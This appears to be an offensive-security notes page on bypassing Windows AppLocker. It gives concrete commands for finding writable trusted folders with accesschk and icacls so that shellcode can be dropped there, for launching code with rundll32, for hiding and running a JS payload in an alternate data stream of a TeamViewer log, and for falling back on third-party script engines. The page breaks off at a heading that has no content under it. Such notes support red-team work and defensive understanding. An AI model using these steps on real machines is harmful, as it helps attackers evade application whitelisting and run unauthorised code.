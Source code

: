 ```yaml
---
title: AppLocker Bypass
layout: default
parent: AppLocker / Powershell CLM
nav_order: 1
---
```


Note: AppLocker rules do not apply to the built-in local accounts such as Local System, Local Service, or Network Service. Neither do they apply to the IIS DefaultAppPool account

## Trusted Folder Bypass ##

1. Use SysInternals AccessChk to check writable folder under `C:\Windows`. These means writable. Also can check the following:\
`C:\Program Files`\
`C:\Program Files (x86)`

```
accesschk.exe "username" C:\Windows -wus
```

2. Next use icacls from results above to check if it is executable (in this example C:\Windows\Task). If RX means can write and can execute.:
`icacls.exe C:\Windows\Tasks`

3. Can just copy shellcode to this folder to bypass AppLocker.

## Bypass with DLL ##

1. If DLL block is not enabled, can just use DLL to bypass it (in example below the function name in DLL is `run`).
`rundll32 C:\Tools\TestDll.dll,run`

## Alternate Data Streams ##

1. First you need to find a writable and executable file and in trusted location (similar to Trusted Folder Bypass). Then write your exploit js into it:
`type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"`

2. Excute it using wscript:
`wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"`

## Third Party Execution ##

1. <b>VBA Code in Microsoft Office</b>, Python, Perl, Java and other third party scripting engine can always bypass AppLocker.

## Arbitrary C# Using Workflow Compiler ##

1. Run the following PowerShell code:
